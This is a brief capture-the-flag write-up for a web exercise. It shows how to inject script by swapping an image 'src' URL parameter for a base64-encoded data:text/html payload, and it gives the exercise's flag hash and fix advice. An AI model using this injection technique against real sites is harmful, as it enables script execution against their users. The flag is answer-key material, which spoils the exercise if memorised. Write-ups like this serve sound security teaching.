 # Where:
    /
# How:

-Click the 3rd image on the index page

-Encode the following script into base 64 using [Base 64](https://www.base64encode.org/)

    (<script>alert('this works')</script>)

-Get following hash:

    ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Change the src value from 'nsa' to:

    data:text/html;base64,ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Press *Enter* to go to url with altered parameter to receive the flag.

# Flag:
    928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# Possible abuses:

Can trick the client-side into running a malicious script.

# Fix:

Don't take the source of an image as a variable in the url.<br>
Rather have source stored somewhere secure and use ids to tell back end which source to use.<br>
If you have to send the source rather use POST.<br>
